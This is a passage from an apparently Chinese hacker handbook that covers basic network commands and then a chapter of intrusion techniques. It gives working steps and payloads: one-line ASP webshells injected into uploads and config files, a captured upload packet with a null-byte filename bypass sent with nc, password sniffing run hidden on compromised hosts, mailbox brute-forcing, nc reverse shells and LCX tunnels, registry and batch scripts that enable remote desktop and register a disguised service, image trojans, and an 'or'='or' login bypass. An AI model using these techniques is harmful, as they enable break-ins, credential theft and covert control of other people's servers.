- `[IP地址]` 指定网络设备 IP 地址。
- `[网络设备]` 指定网络设备名称。

### ping

功能说明：检测主机。

```
ping [-dfnqRrv] [-c<完成次数>] [-i<间隔秒数>] [-I<网络界面>] [-l<前置载入>] [-p<范本样式>] [-s<数据包大小>] [-t<存活数值>] [主机名称或IP地址]
```

补充说明：执行 ping 指令会使用 ICMP 传输协议，发出要求回应的信息，若远端主机的网络功能没有问题，就会回应该信息，因而得知该主机运作正常。

参数：

- `-d`：使用 Socket 的 SO_DEBUG 功能。
- `-c<完成次数>`：设置完成要求回应的次数。
- `-f`：极限检测。
- `-i<间隔秒数>`：指定收发信息的间隔时间。
- `-I<网络界面>`：使用指定的网络界面送出数据包。
- `-l<前置载入>`：设置在送出要求信息之前，先行发出的数据包。
- `-n`：只输出数值。
- `-p<范本样式>`：设置填满数据包的范本样式。
- `-q`：不显示指令执行过程，开头和结尾的相关信息除外。
- `-r`：忽略普通的 Routing Table，直接将数据包送到远端主机上。
- `-R`：记录路由过程。
- `-s<数据包大小>`：设置数据包的大小。
- `-t<存活数值>`：设置存活数值 TTL 的大小。
- `-v`：详细显示指令的执行过程。

ping 是一个最常用的检测是否能够与远端机器建立网络通讯连接的命令，它是通过 Internet 控制报文协议 ICMP 来实现的。而现在有些主机对 ICMP 进行过滤，在这种特殊的情况下，有可能使得一些主机 ping 不通，但能够建立网络连接。入侵中常用尝试执行 ping 命令来测试能否进行连接。

### netstat

功能说明：显示网络状态。  
语法：`netstat [-acCefghilMnNoprstuvVwx][-A<网络类型>][--ip]`  
补充说明：利用 netstat 指令可以让你得知整个 Linux 系统的网络情况。

参数：

- `-a` 或 `--all`：显示所有连线中的 Socket。
- `-A<网络类型>` 或 `--<网络类型>`：列出该网络类型连线中的相关地址。
- `-c` 或 `--continuous`：持续列出网络状态。
- `-C` 或 `--cache`：显示路由器配置的快取信息。
- `-e` 或 `--extend`：显示网络其他相关信息。
- `-F` 或 `--fib`：显示 FIB。
- `-g` 或 `--groups`：显示多重广播功能群组成员名单。
- `-h` 或 `--help`：在线帮助。
- `-i` 或 `--interfaces`：显示网络界面信息表单。
- `-l` 或 `--listening`：显示监听中的服务器的 Socket。
- `-M` 或 `--masquerade`：显示伪装的网络连线。
- `-n` 或 `--numeric`：直接使用 IP 地址，而不通过域名服务器。
- `-N` 或 `--netlink` 或 `--symbolic`：显示网络硬件外围设备的符号连接名称。
- `-o` 或 `--timers`：显示计时器。
- `-p` 或 `--programs`：显示正在使用 Socket 的程序识别码和程序名称。
- `-r` 或 `--route`：显示 Routing Table。
- `-s` 或 `--statistics`：显示网络工作信息统计表。
- `-t` 或 `--tcp`：显示 TCP 传输协议的连线状况。
- `-u` 或 `--udp`：显示 UDP 传输协议的连线状况。
- `-v` 或 `--verbose`：显示指令执行过程。
- `-V` 或 `--version`：显示版本信息。
- `-w` 或 `--raw`：显示 RAW 传输协议的连线状况。
- `-x` 或 `--unix`：此参数的效果和指定 `-A unix` 参数相同。
- `--ip` 或 `--inet`：此参数的效果和指定 `-A inet` 参数相同。

# 第三章 黑客入侵常用技巧

以上就是 Linux 下的常用命令，与 Windows 下的其实都是很接近的。

## 11 我通过默认密码进入了一个网站的后台，下面我能做什么呢？

首先纠正一个观念，进入一个网站的后台并不能说明你已经“黑”掉了该网站。有些网站的后台权限很有限，只能根据程序本身的设定对网站进行操作，比如发新闻、发图片。少部分有漏洞的程序能实现挂木马，这对于黑客来讲是远远不够的，称不上获得了对整个网站生杀予夺的权利，需要进一步获得 WEBSHELL，才可称这个网站被“黑”。

在一个黑客的眼中，后台是通往 WEBSHELL 的一条捷径，所以进入后台之后一定会尽全力取得 WEBSHELL。在进入后台之后，容易得到 WEBSHELL 的方法主要有以下几个：

- 1. 上传文件得到 WEBSHELL

很多网站程序对普通用户没有给予上传权限，或者对上传过滤得很严，但是对于后台管理员却多半会给予上传权限或者验证很松懈，使得黑客技巧中的经典上传法有了大量用武之地。

现在的网站大部分都是有新闻和软件下载栏目的，这些管理都是在后台实现。在添加新闻和软件时，往往伴随着有新闻图片或软件预览图片的上传，这些图片是从外部提交的。一些后台的上传验证不严，可以直接上传后缀为 ASP、PHP 等脚本类型的文件，将 WEB 木马直接上传，即可得到一个 WEBSHELL，如图29所示。


图29

有些验证只是作了本地的脚本过滤，不让上传 ASP 后缀的文件，那我们可以去掉验证码改为本地提交的方法上传；有的对上传类型作了检测，但没检测文件后缀名，我们可以用图片木马上传得到 WEBSHELL；有的虽然检测了上传类型和后缀，但我们可以用抓包空格间断法绕过检测上传 WEBSHELL……后面的几种使用方法都较复杂，以后我们会有专门的详细操作介绍，这里只是管中窥豹地给大家作个简单的介绍。

- 2. 备份数据库

网站的建设离不开数据库，为了网站安全高效地运行，定期对数据库进行备份是个好习惯，于是越来越多的整站程序在后台整合了相关功能。而备份时绝大多数后台是允许将备份数据库文件保存为 ASP 后缀的，那么这个数据库备份功能就可以被我们轻松利用，从而得到 WEBSHELL。

首先，我们将一个 WEB 木马后缀改名为 GIF 或 JPG 等图片格式，在网站上传成功，假设保存地址和文件名为 `UPFILE/200707220014.GIF`。因为是 GIF 后缀，所以是不能运行的。不要急，我们有办法将它变成 ASP 后缀。

然后进入网站后台的数据库操作页面，选中备份数据库，在源数据库地址一栏中输入刚才上传的 GIF 后缀的 WEB 木马的地址 `UPFILE/200707220014.GIF`。

在备份数据库地址一栏中填入一个网站中存在的目录的地址（有一部分后台可以随意指定目录，如果不存在会自动创建），如 `DATABACKUP/MM.ASP`。点击确定后，我们上传的 GIF 的 WEB 木马 `UPFILE/200707220014.GIF` 就备份成了 `DATABACKUP/MM.ASP`，如图30所示。


图30

在 IE 中连接 `http://www.xxx.com/databackup/mm.asp` 就得到了我们的 WEBSHELL。这种备份数据库的利用很经典，大家要记牢！

- 3. 替换文件取得 WEBSHELL，或插入一句话马到配置文件取得 WEBSHELL

部分网站中某个 ASP 文件的内容是可以自行定义的，因为过滤不严，导致可以直接改其内容成为一个 WEBSHELL，比如动网 6.0 中的“注册欢迎”信息是可以在后台自定义的。将一个 WEB 木马的代码复制进这个文件，再连接欢迎文件，即可成为一个 WEBSHELL。类似的还有某些网站可以自行修改帮助文件等，大家都可以采用同样的方法利用。

另一类网站是将网站配置没有存在数据库中，而是直接存放到了一个单独的 ASP 文件中，如果过滤不严，也很容易得到一个 WEBSHELL，这里主要讲讲这个方法。

假设一个网站，它的配置信息是写入到 `CONFIG.ASP` 文件里，源代码如下：

```asp
<%
Const SiteName="黑客手册后台管理系统"    '网站名称
Const SiteTitle="欢迎使用后台管理系统"  '网站标题
%>
```

我们可以通过后台控制网站信息中的“网站名称”“网站标题”这两项。要插入一句话木马到 `CONFIG.ASP` 文件里，直接在“网站名称”处插入 `<%execute request("pp")%>` 肯定是不行的，因为这个代码被放到 `CONFIG.ASP` 文件中，和文件代码中的 `<%` 和 `%>` 号在一起后会提示出错。

我们插入的总体思路是让一句话马跟在“网站名称”后被正常解析执行，要实现这个目的，前要保证“网站名称”栏的正确性（如果前面都不正确，自然无法解析到一句话马那里），后要闭合掉后面无用的代码，以防出错。

我们可以在“网站名称”处写入“黑客手册后台管理系统";execute request("pp")'”，如图31所示，此时 `CONFIG.ASP` 文件中的内容变成了：

```asp
<%
Const SiteName="黑客手册后台管理系统";execute request("pp")'"   '网站名称
Const SiteTitle='欢迎使用后台管理系统'                         '网站标题
%>
```

以上代码中，前面的“黑客手册后台管理系统”这里就使网站名称能正常被解析，分号后紧跟的冒号作用相当于语文中的句号，表示一句完毕，另一句重新开始。“execute request("pp")”是一句话的代码，其后的分号连接掉了后面的内容，这样的一句话马就可以正常运行，这时连接 `http://www.xxx.com/config.asp`，它就成了我们的一句话木马，如图32所示。


以上就是主要的通过后台得到 WEBSHELL 的方法，在实际的操作中会有多种变化，比如 `config.asp` 文件插马就有很多种方法，注意灵活地运用。正因为这些漏洞的存在，所以才说后台是通往 WEBSHELL 的捷径。

## 12 什么是抓包上传？

我们在浏览网页、向网站上传图片的过程，其本质是你作为客户端与网站作为服务端之间进行的数据包传递。浏览网页就是把包含网站文字、图片、声音内容的数据包下载到本地，并且被浏览器生成为我们能看懂的信息；上传图片就是把本地的图片文件转换成数据包的形式提交到远程的服务器上，并被服务器解析保存。如果我们能将提交到远程服务器的数据包进行人为地修改，那么自然也会影响到最后服务器保存的结果。抓包上传就是这样一种技术。

抓包上传通常用在网站上有图片上传和软件上传的提交位置，在有上传漏洞存在的前提下，能使上传的 WEB 木马保存为 ASP 后缀，而不是图片或软件的其他后缀（脚本的 WEB 木马如果被保存为其他后缀将无法在服务器上被解析执行）。抓包上传通常会用到三个工具，一个是用来抓取数据包的 WsockExpert，一个是用来修改数据包的 WinHex，一个是用来提交数据包的 NC，如图33、图34所示。


假设某网站有一处图片上传页面地址为 `http://www.xxx.com/upfile.asp`（假定此处上传是存在漏洞的），首先将该链接复制到 IE 浏览器的地址栏中（一定要使用 IE 浏览器这种…）个程序打开一个页面，而不能使用类似腾讯 TT 那样一个程序打开多个页面的浏览器，那会使 WSockExpert 无法抓取当前页面产生的数据包）。

然后将一个 WEB 木马添加至上传文件里，点击“上传”，这时弹出“上传类型不正确，只允许上传 GIF、JPG 格式文件”或别的提示，如图 35 所示。


图 35

这就说明此处对上传文件类型进行了验证，上传失败。没关系，我们尝试用抓包上传来绕过验证。打开 WSockExpert 工具，点击左上方“打开文件”图标，在弹出的进程列表中选择标题为“HTTP://www.xxx.com/upfile.asp”页面的 IE 窗口。在 IE 浏览器中再次选择刚才我们上传的 ASP 木马，这时仍会提示上传失败，但是切换至 WSockExpert 会看到已经抓取了很多数据，如图 36 所示。


图 36

我们需要的是关键字为 POST 的那一行以及它下面的一行数据包，共计 2 行。将 POST 这行和它下方数据包信息都复制粘贴到一个记事本里，请注意在 POST 和它下方的数据包之间要空一行。

在记事本中最后保存的内容大致如下：

```http
POST /upfile.asp HTTP/1.1

Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, ...
Referer: http://www.nohack.com/upload.asp
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d724236c1488
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Alexa Toolbar)
Host: www.hackertest.com
Content-Length: 405
Connection: Keep-Alive
Cache-Control: no-cache
COOKIE: ASPSESSIONID...; isCOOKIES=0; BoardList=BoardID=Show; upNum=0
```

```txt
-----------------------------7d72423bc14d8
Content-Disposition: form-data; name="FILE1"; filename="c:\numa.asp"
Content-Type: text/plain

<%execute request("123456")%>

-----------------------------7d72423bc14d8
Content-Disposition: form-data; name="FILE2"; filename=""
Content-Type: application/octet-stream

-----------------------------7d72423bc14d8
```

将此文本保存为 1.TXT，有 2 处还需要改动。首先是代码中的 **filename=**，后面参数是上传的 ASP 木马文件名。我们需要在后面加上一个空格和 .GIF，共计 5 个字符。修改后的这一段代码是 **Content-Disposition: form-data; name="FILE1"; filename="c:\numa.asp .gif"**，请一定注意，.gif 前有一个空格。

第二处是代码中的 **Content-Length: 405** 这一行，它表示的是该数据包的长度。由于前一步的修改使我们的数据包增加了 5 个字符，在此处就要将数据包的长度增加 5，变为 410。改动后的结果是 **Content-Length: 410**，可以用 WinHex 对数据包进行修改。

打开刚才保存的文本文件，在右侧的窗体中找到 `filename="c:\numa.asp .gif"`，用鼠标点击 .GIF 前的那个我们添加的空格，在左侧的窗体会出现对应的蓝色标记。在显示 20 处将 20 中的 2 改为 0，成为 00，如图 37 所示。


保存成 1.TXT，下面该用 NC 提交了。在 CMD 下输入命令 **NC -VV www.hacktest.com 80<1.txt**，如图 38 所示。


`www.hacktest.com` 是要提交的网址，注意这里是不能加 `HTTP://` 的。提交完毕后，能从返回的代码里找到类似 `2007082400124.ASP` 的文件名，这是上传后被服务器保存后的文件名，在 IE 浏览器中连接 `http://www.nohack.com/2007082400124.ASP` 即可得到 WEBSHELL，这就是抓包上传的经典利用方法。

## 13 所谓的嗅探是怎么回事？

嗅探，英文 Sniffer，是一种高级的黑客技术。黑客攻击一般都是以主动方式进行的，例如利用漏洞或者 SQL 注入的方式对系统进行攻击。但其实还有一类危害非常大的被动攻击方式往往为大家所忽视，嗅探攻击就是其中一种。

嗅探是一种威胁性极大的被动攻击方式，使用嗅探技术可以监视网络的状态、数据流动情况以及网络上传输的信息。当信息以明文的形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输的源源不断的信息截获。黑客们常常用嗅探方式来截获用户的口令。嗅探到目前为止，其技术只针对内网和在同一网段内的网络环境。

数据在网络中的传播是以数据包的形式传递的，什么是数据包这里暂时不详细地讨论，我们可以把数据包看成一封封邮件，上面有邮编、门牌号，不过这个邮编更精密准确，可以一直给收件人一个“邮编号”，这个邮编就相当于是 IP 地址，收信人门牌号就相当于网卡的 MAC 地址。这一封封“信”里装着数据，通过“邮编”或“门牌号”在网上准确地传递到目的地。

理解到这一层之后，我们再提高一层。通常在局域网中，数字化信息的传递不像现实中邮件的传递那样，只传给收件人一人，而是用“广播”的方式让网络中的所有主机都收到。这些主机都很自觉，如果发现收件人不是自己，就把数据包丢掉而不作响应；如果收件人是自己，就会接收下来并处理。

这下我们知道了，在网络中的每个主机都按照以上流程的规则来接收属于自己的数据包，丢弃并不属于自己的数据包，信息的安全是有保障的，因为不属于收件人的包收到了也会被放弃，不会响应并处理。

如果这时网络中出现了一台“不自觉”的主机，它不丢弃不属于自己的包而是接收呢？它就能看到这些本不属于它的数据包的内容，嗅探由此产生，那台“不自觉”的主机就是我们安装了嗅探软件的主机。

嗅探的利用工具品种繁多，有一些偏向于网管使用（嗅探技术不仅是黑客入侵的手段，也是网管分析网络状况的好帮手），这一类工具的配置和选项都比较复杂，不太适合初学者使用。这里以一款“傻瓜化”的 SNIFF 工具 X_SNIFF 为例，介绍如何使用工具在网络中进行 SNIFF。

嗅探技术是很强大的，SNIFF 的条件是要在同一个网段中，只能嗅探同一网关下的计算机。X_SNIFFER 可捕获局域网内 FTP/SMTP/POP3/HTTP 协议密码，这里我来简单解释一下。不必深究这几种协议的原理，只要记住：FTP 协议对应的是 FTP 服务，嗅探它能得到 FTP 密码；HTTP 对应的是 WEB 浏览，嗅探它能得到 HTTP 形式的密码，比如论坛登录账号和密码；POP3 和 SMTP 协议是邮箱使用的协议，嗅探它能得到邮箱的账号和密码。

X_SNIFFER 有以下参数，如图 39 所示。

- `-tcp`：输出 TCP 数据报
- `-udp`：输出 UDP 数据报
- `-icmp`：输出 ICMP 数据报
- `-pass`：过滤密码信息
- `-hide`：后台运行
- `-host`：解析主机名
- `-addr <IP地址>`：过滤 IP 地址
- `-port <端口>`：过滤端口
- `-log <文件名>`：将输出保存到文件
- `-asc`：以 ASCII 形式输出
- `-hex`：以 16 进制形式输出

```txt
USAGE: xsniff <Options>
Options means:
 -tcp        : Output tcp packets
 -udp        : Output udp packets
 -icmp       : Output icmp packets
 -pass       : Filter username/password
 -hide       : Run in background
 -host       : Resolve IP address to hostname
 -addr <IP>  : Output packets when IP address equal to <IP>
 -port <Port>: Output packets when port equal to <Port>
 -log <File> : Output to <File>
 -asc        : Decode packets to ASCII
 -hex        : Decode packets to HEX

Example:
 xsniff.exe -pass -hide -log pass.log
 xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

图 39

## 资深黑客渗透内幕答疑

其中主要的参数有 -TCP、-PASS、-HIDE、-ADDR、-PORT、-LOG。在网络中传输的数据包绝大部分是 TCP 形式的，一般就加 -tcp 这个参数就行了，-UDP 和 -ICMP 参数用得很少。

-PASS 能帮助我们从嗅探到的信息中选出与密码相关的信息，这是一个很方便菜鸟的参数。有一些更专业的嗅探工具需要人工定义，或用批处理方式，从嗅探到的海量数据里筛选出关于密码或其它的相关信息，这对于初学者是很难做到的，用这一个参数可以自动完成筛选。

-ADDR 参数是指定在内网中要嗅探的目标计算机的内网 IP 地址。比如你想对一台和你同内网 IP 地址为 192.168.1.5 的计算机进行嗅探，参数就是 -ADDR 192.168.1.5。

-PORT 是指定要嗅探的端口。比如 FTP 的 21 端口或者是 WEB 常用的 80 端口，指定了端口后我们要嗅探的数据类型就更明确。比如一台机器上开着 21 端口和 80 端口，我们只想得到 FTP 的密码，那就只嗅探 FTP 对应的 21 端口即可，参数形式为 -PORT 21。

-LOG 参数是把结果保存到一个文件里便于我们查看，参数形式为 -LOG PASS.TXT。  
-HIDE 是以后台方式运行。如果是在一台肉鸡上运行 SNIFFER 工具，就要选中这个参数，以免被肉鸡发现。

最后整个运行的语句类似为：

```txt
siff.exe -tcp -port 21 -hide -pass -addr 192.168.1.5 -log pass.txt
```

意思是：嗅探 IP 为 192.168.1.5 的计算机上的 21 端口的 TCP 数据中的密码信息，结果保存为 PASS.TXT 文件，嗅探工具以后台隐藏方式运行。

最后在 PASS.TXT 文件中能看到如图 40 所示的信息，其中就有嗅探得到的密码。

```txt
12/07/07 06:31:43 192.168.1.5 -> 202.108.10.194 (TCP)
USER hackyoyo
PASS 123456
```


## 14 如何破解邮箱？

很多朋友都对破解邮箱感兴趣，今天就教大家如何破解邮箱。一般都是使用穷举密码的方法来暴力破解，这种方法在遇到弱口令的情况下，成功率颇高。但是暴破邮箱也有一个必要的条件，就是服务器没有对过多的出错尝试设定锁定阈值，即在尝试若干次后不会将此账号冻结。如果服务器有此功能，将使我们的猜解所用时间大大延长，甚至变得几乎不可能被暴破。

暴破邮箱依赖于工具来实现，因为我们不太可能把字典文件中的账号密码一个个地手工填入后进行尝试。这里介绍使用的是“溯雪”，这是最早的一代暴力破解邮箱工具，其功能强大，稳定性好。运行该工具后，在界面中主要分为五大块，如图 41 所示。

- 1、控制台信息
- 2、表单选择区
- 3、表单项目设置区
- 4、浏览区
- 5、标志区

如果现在要破解一个邮箱的密码，首先进入邮箱登录页面，然后把链接地址复制进溯雪的地址栏，选择菜单“文件”－“从当前 URL 导入”功能，强制提取。这时在左下角会出现如 USER、PASSWORD 的表单，如图 42 所示。


何为表单？简单地说表单就是把相关的输入项提交到服务器的元素，就好像一个个装密码和用户名并运送到服务器的“集装箱”。

假设我们想探测用户 HACK 的密码，先在 USER 表单处双击，进入设置，在“单元常量”处直接输入需要探测的内容，可以一次输入多个，中间用 `,` 间隔，例如 pchacker、nettox、xiaoming 等等。我们探测的是 hack，所以输入 nohack，如图 43 所示。


pass 这个表单就是我们要破解的密码，双击 pass 表单打开配置框，密码这里是未知的，所以需要挂接一个字典，选中“使用字典”设置，如图 44 所示。在溯雪中自带了几个字典，一般常见的弱口令都在其中，可以指定一个。


配置完成后需要提交测试，这一步很关键，其目的是为了测试工具的自动判断能力。我们是将出错页面的特征作为密码对或错的判断依据，提交测试后假设密码不对，页面上会返回“密码不正确”等字符，将这个特征符提取出来作为判断的依据。如果提交后页面有这个字符，说明是错的密码；如果没有，说明密码正确，从而使软件能对密码正确与否作出判断。

点击菜单“运行”－“提交测试”，确信设置无误后就可以开始探测了。从菜单“运行”－“开始探测”，首先会出现临时文件保存的对话框，如图 45 所示。


“只探测一次”这个选项通常要选上，以节省时间。确定之后开始选择一个错误的标志，一般将 `<title>nohack</title>` 这个 title 标记中的字符复制粘贴进去即可。

```html
<title>nohack</title>
```

一切准备好后就可以开始探测，如果探测成功，会出现一个结果报告单，如图 46 所示，将最后的结果升序或降序排列，再一个个登录尝试，直至尝试出正确密码。


## 15 如何进行反向连接？

反向连接是黑客使用手法中很常见很有效的一种，为什么要进行反向连接呢？在我们的网络安全检测中，常常遇到一种情况，就是对方安装有防火墙或者在内网，使得我们在肉鸡上运行了木马后门之后却不能与之相连。为了解决这个限制，我们可以采用反向连接，即让对方主动来连接你，这是一个非常有效且方便的做法。

这是因为大部分防火墙在配置时都只屏蔽了外部对于本机的访问，而对于本机对外的访问，则是不设防的。因为一旦设防会给使用带来很多不便，并且有时服务器要对外连接数据库或其它 WEB，那么也必须开放一个端口向外连接，只要开放一个端口允许外连，也为反向连接创造了条件，连接带来可能。

假设我们现在拿到了一台服务器的 WEBSHELL，想对其进行反向连接，首先可以测试一下该服务器对反向连接是否有过滤设置。使用工具 NC 在自己的计算机上执行命令 **nc -vv -l -p 8000**，然后在 WEBSHELL 上执行 **nc -vv 你的计算机IP地址 8000**。如果能够反向连接，你的计算机会收到类似 `connect to [23.54.93.10] from billgates [219.22.124.248] 2673` 的信息，如图 47 所示。

```txt
D:\hacksofe\nc>nc -vv -l -p 8000
listening on [any] 8000 ...
connect to [23.54.93.10] from fly-d02d27d466a [219.22.124.248] 2673
```


在 23.54.93.10 这个位置的 IP 地址显示的是你自己计算机的 IP，222.22.193.10 这个位置显示的是你肉鸡的 IP。如果出现这个回显，说明反连是成功的。如果没有反连成功，可以尝试把本地端口换一下，比如换成 80、1433 等试试。NC 的本地监听命令相应地改为 **nc -vv -l -p 80** 或 **nc -vv -l -p 1433** 即可。因为有时服务器是作了严格限制的，只允许对外连接特定的端口，所以尝试一下变换端口，有时能收到意想不到的效果。

现在证明已经可以反连，下面要做的就是把一个 SHELL 反连到本地计算机，使我们能对肉鸡进行操作。在 NC 中自带了一个非常强大的命令，就是能把 CMD.EXE 反连到远程主机，我们在肉鸡上执行这个命令，就可以把肉鸡的 CMD 反弹到我们本地计算机上。我们在这个 CMDSHELL 中执行的命令，就相当于在远程主机上执行的一样。使用这个命令之前，还是要在本机上运行监听命令 **nc -vv -l -p 8000**，如图 48 所示。

```txt
D:\hacksofe\nc>nc -vv -l -p 8000
listening on [any] 8000 ...
connect to [23.54.93.10] from fly-d02d27d466a [219.22.124.248] 3948
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

D:\>dir
...
```


在肉鸡上执行 **nc -e cmd.exe 你的IP 8000**，这样就把肉鸡的 CMD 反连到了你的计算机上，在这个反弹的 NC 窗口中输入任何命令都会在远程的肉鸡上得到执行。

除 NC 外，还有 LCX 也是比较常用的反向连接工具。该工具不仅可以转发 cmd，还可以转发 3389 远程服务等，使用方法是在本机 B 上监听 **-listen 51 3389**，在肉鸡 A 上运行 **-slave 本机ip 51 肉鸡ip 3389**，如图 49 所示。

```txt
[+] Listening port 51 ......
[+] Listen OK!
[+] Listening port 3389 ......
[+] Listen OK!
[+] Waiting for Client on port:51 ......
[+] Accept a Client on port 51 from 219.22.124.248 ......
[+] Waiting another Client on port:3389....
```


在本地打开远程桌面登录工具，再连接 IP 127.0.0.1 就可以连上肉鸡的 3389 了。其连接过程是肉鸡主动连接本机，将远程主机的 51 端口和本机的 51 端口建立隧道通信，把本机对 3389 的连接通过隧道转发到肉鸡的 3389。这样在本地连 3389 时就等于是被转发到了肉鸡，所以在输入 127.0.0.1 连自己时却是连接上了肉鸡。

## 16 怎样打开3389远程终端服务？

3389是通常说的远程桌面的俗称，通过远程桌面，我们能像使用QQ的远程协助一样去操作远程的计算机，是图像化、鼠标化的操作，非常方便。

远程桌面连接的客户端位于“开始”－“附件”－“通讯”－“远程桌面连接”，如图50所示。


图50

打开后界面很简单，输入远程主机的IP地址即可进行连接，如图51所示。


图51

连接上远程主机之后，需要输入用户名和密码才能进行登录操作，如图52所示。也就是说，开启远程服务的前提是需要先建立管理员账号，否则开了连接也无法登录。


图52

获得了3389也就宣告着一台主机的最后关口被黑客攻破，拥有了至高无上的权限。黑客炫耀自己技术时说的“你的电脑，我的权限”就是指的3389。

开3389的方法较多，总体说来并不难，但是需要提醒初学者，开3389需要admin权限，否则将无法开启。在不是管理员权限的情况下去执行管理员才可实现的命令是初学者常犯的毛病，“权限”二字要时常放在心里。

开3389的方法各有其针对的系统，这里作一个全面的总结，并标明各种方法针对的系统。

## 方法一：工具开启（针对系统因工具的功能不同而有差别）

因为对开启3389的需求很大，许多工具也就应运而生，通常是一个EXE的小程序，上传至服务器后运行即可，如图53所示。有的工具注明WIN2000是需要重启才能开启成功，那就加上一个重启参数-r（可能因工具不同，参数有所区别），在开启3389的同时重启服务器，重启后即可通过远程桌面连接服务器。

## 方法二：inf开启法（适用于Windows 2000）

打开记事本，编辑内容如下：

```bash
echo [Components] > c:\\hehe
echo "TSEnable"= on >> c:\\hehe
sysocmgr /i c:\\winnt\\inf\\sysoc.inf /u c:\\hehe /q
```


图53

编辑好后存为BAT文件，上传至肉鸡执行。这里值得注意的是要确定winnt是否在C盘，如果安装在D盘或E盘，此处的代码要做相应的修改。

安装后需要重启肉鸡，重启可以用工具，也可以上传WinXP系统中的shutdown.exe到Win2000的系统目录下（%systemroot%，\Windows\system32\），然后执行`shutdown -t 30 -r`，或以taskkill命令结束掉所有的SVCHOST进程导致重启。

## 方法三：注册表键值修改法（适用于所有系统）

Windows所有的配置信息都在注册表里有相关键值，改动这些键值也就达到了改变配置的目的，注册表修改法由此而生。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"enabled"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002

[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecuService]
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00,\
74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,65,\
00,76,00,65,00,6e,00,74,00,6c,00,6f,00,67,00,2e,00,65,00,78,00,65,00,00,00
"ObjectName"="LocalSystem"
"Type"=dword:00000010
"Description"="Microsoft"
"DisplayName"="Microsoft"
```

将以上代码存为3389.reg，然后用`regedit -s 3389.reg`导入，现在我们就可以尝试连接远程主机的3389服务了。以上就是常见的开3389的方法。以个人经验来看，工具开启的成功率最高。但是很多工具现在都被杀毒软件追杀，如果无法免杀则选用后两种方法吧。

## 17 什么是图片木马？

在学习一段时间的黑客知识之后，朋友们会接触到一个比较新鲜的名词——图片木马。这里我先要纠正大部分学习者在初次接触这个名词后在心理上造成的误区，他们以为图片木马就是图片和木马的结合，就是一个图片但同时也是一个像灰鸽子一样的木马，对方只要点击浏览这个图片那么就会中木马。因为这种误解，很多初学者把图片木马当成秘密武器，想在GIF后缀的情况下成功运行EXE木马。

这里先告诉大家，图片木马并不是那么回事，不可能让你在GIF后缀文件的条件下执行木马。我们所说的图片木马不是灰鸽子一类的远程控制木马，而是像海洋、老兵之类的WEB木马。如果要对图片木马的性质作一个准确的描述，应该说是具备图片特征的WEB木马，这种工具在入侵中相当有用。

众所周知上传漏洞是一种常见漏洞，一般防护有两个思路：一种是内容检测，就是检测上传的文件内容是否真为图片，如果不是就不能上传；一种是后缀检测，如果不是GIF或JPG等图片格式就不能上传。

明白了过滤原则，我设想一种情况，假设某网站对于上传只过滤了内容，但却没有过滤后缀，这会出现什么情况呢？此时上传一个内容为GIF、后缀为ASP的包含WEB木马的文件，这个文件将成为你的WEBSHELL，它就是图片木马。

图片木马本身并不是特别神秘的东西，也不是什么牛人兵器库中的绝密，任何人花一分钟就可以自己制作出一个图片木马。

制作方法是：

- 1. 找到一个图片文件，不能太大，50K以下为宜；
- 2. 用十六进制编辑器WINHEX或Uedit32打开这个文件，如图54所示。


图54

- 3. 找一段一句话木马代码，然后往下拖动到最后一行，复制粘贴到工具打开的图片文件的最后面。如图55所示，鼠标停留的空字符处，粘贴一句话木马`<%execute request("#")%>`。


图55

- 4. 将这个文件的后缀改为asp后缀的文件进行上传。上传成功后应该是一个ASP后缀的文件，页面显示为一个红叉，如图56所示，但这不会影响我们使用。这时用一句话木马连接器连接这个木马，即可得到一个WEBSHELL。


图56

## 18 什么是本地提交？

本地提交就是把应该在服务器上提交的数据搬动到自己的计算机上提交，不依赖网站本来设定好的程序，自己编辑提交项。

这样做有一个好处，能够绕过一些客户端的过滤和限制（在用户的计算机上进行的过滤称为本地过滤，在远程服务器上进行的过滤称为服务器过滤。当过滤为客户端时，其过程是我们可控制的）。因为正常提交时，如果代码中有相关的过滤和限制设置，提交的数据会先被这类过滤代码处理，我们是不能任意提交的，这给入侵带来了障碍；本地提交则可以先剥离掉过滤代码，然后将修改后的文件从本地进行提交。

给大家看一个例子，假设有一个网站后台地址为http://www.xxx.com/admin/index.asp，想利用所谓的“万能密码”`'or'='or'`进入后台。在用户和密码输入框输入`'or''='`后弹出一个对话框，提示“禁止输入敏感字符”，说明我们输入的字符`=`号或`'`号被过滤了。是不是客户端过滤的呢？我们来看看这个页面的源代码：

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<!-- saved from url=(0027) http://www.xxx.com/admin/ -->
<!-- 连接数据库 --><HTML><HEAD><TITLE>后台管理登录系统</TITLE>
<META http-equiv=Content-Type content="text/html; charset=gb2312"><LINK
href="index/Style.css" type=text/css rel=stylesheet>
<SCRIPT language=javascript>
function searchz(){
  if (zjsearch.keywords.value==""){
    alert("请输入密码!")
    zjsearch.keywords.focus()
    return false
  }
  var i=zjsearch.keywords.value.indexOf("=")
  if(i!=-1){
    alert("禁止输入敏感字符")
    zjsearch.keywords.focus()
    return false
  }
  document.zjsearch.submit()
}
</SCRIPT>

<STYLE>
.titles{
